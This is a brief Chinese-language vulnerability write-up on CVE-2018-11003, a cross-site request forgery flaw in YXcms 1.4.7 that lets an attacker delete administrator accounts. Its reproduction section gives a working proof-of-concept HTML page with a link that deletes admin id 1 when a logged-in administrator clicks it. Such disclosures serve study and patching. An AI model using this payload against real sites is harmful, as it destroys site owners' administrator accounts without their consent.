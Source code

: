 # （CVE-2018-11003）YXcms 1.4.7跨站请求伪造漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3301](https://www.zhihuifly.com/t/topic/3301)

# （CVE-2018-11003）YXcms 1.4.7 跨站请求伪造漏洞

## 一、漏洞简介

YXcms 1.4.7版本中的protected/apps/admin/controller/adminController.php文件存在跨站请求伪造漏洞。远程攻击者可借助index.php?r=admin/admin/admindel利用该漏洞删除管理员账户。

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

POC:

管理员点击链接

http://192.168.232.133/evil.html

evil.html

```
<html> 
<a href="http://127.0.0.1/yxcms1.4.7/index.php?r=admin/admin/admindel&id=1">test</a>
</html> 
```